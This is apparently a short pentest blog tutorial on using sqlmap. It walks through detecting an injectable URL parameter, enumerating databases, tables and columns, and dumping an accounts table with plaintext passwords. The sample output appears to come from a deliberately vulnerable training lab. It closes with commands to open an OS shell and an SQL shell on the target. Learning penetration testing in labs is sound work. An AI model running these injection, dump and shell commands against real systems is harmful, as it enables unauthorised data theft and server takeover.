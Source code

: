 +++
categories = ["Pentest", "Web"]
date = "2021-02-15"
title = "SQL Map"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

First we have to do a fail request to get the url we want to inject on. Then we go to the terminal to start the program:

```
sqlmap -u "our url"

...

[04:16:07] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[04:16:07] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[04:16:07] [INFO] target URL appears to have 5 columns in query
[04:16:08] [INFO] GET parameter 'username' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable

```
This will show information about the parameters that can be injected. Now we are going to navigate inside the databases:


* Databases 

```
sqlmap -u "our url" --dbs

...

available databases [7]:
[*] dvwa
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195

```
* Tables on database

```
sqlmap -u "our url" --tables -D owasp10

...

Database: owasp10
[6 tables]
+----------------+
| accounts       |
| blogs_table    |
| captured_data  |
| credit_cards   |
| hitlog         |
| pen_test_tools |
+----------------+

```
* The columns

```
sqlmap -u "our url" --columns -T accounts -D owasp10

...

Database: owasp10
Table: accounts
[5 columns]
+-------------+------------+
| Column      | Type       |
+-------------+------------+
| cid         | int(11)    |
| is_admin    | varchar(5) |
| mysignature | text       |
| password    | text       |
| username    | text       |
+-------------+------------+

```

* Info on the table

```
sqlmap -u "our url" -T accounts -D owasp10 --dump

...

Database: owasp10
Table: accounts
[17 entries]
+-----+----------+--------------+----------+-----------------------------+
| cid | is_admin | password     | username | mysignature                 |
+-----+----------+--------------+----------+-----------------------------+
| 1   | TRUE     | adminpass    | admin    | Monkey!                     |
| 2   | TRUE     | somepassword | adrian   | Zombie Films Rock!          |
| 3   | FALSE    | monkey       | john     | I like the smell of confunk |
| 4   | FALSE    | password     | jeremy   | d1373 1337 speak            |
| 5   | FALSE    | password     | bryce    | I Love SANS                 |
| 6   | FALSE    | samurai      | samurai  | Carving Fools               |
| 7   | FALSE    | password     | jim      | Jim Rome is Burning         |
| 8   | FALSE    | password     | bobby    | Hank is my dad              |
| 9   | FALSE    | password     | simba    | I am a cat                  |
| 10  | FALSE    | password     | dreveil  | Preparation H               |
| 11  | FALSE    | password     | scotty   | Scotty Do                   |
| 12  | FALSE    | password     | cal      | Go Wildcats                 |
| 13  | FALSE    | password     | john     | Do the Duggie!              |
| 14  | FALSE    | 42           | kevin    | Doug Adams rocks            |
| 15  | FALSE    | set          | dave     | Bet on S.E.T. FTW           |
| 16  | FALSE    | pentest      | ed       | Commandline KungFu anyone?  |
| 17  | NULL     | jeje         | nazori   | lol                         |
+-----+----------+--------------+----------+-----------------------------+


```

##### More commands

Who is the user.

`sqlmap -u "our url" --current-user`

Which database are we injecting on.

`sqlmap -u "our url" --current-db`

##### Inject Shell

Creates a shell on the OS (ASP, ASPX, JSP, PHP). Normally the servers don't allow to upload php shells.

`sqlmap -u "our url" --os-shell`

Creates a shell inside the SQL interpreter so we can make sql requests more comfortable.

`sqlmap -u "our url" --sql-shell`

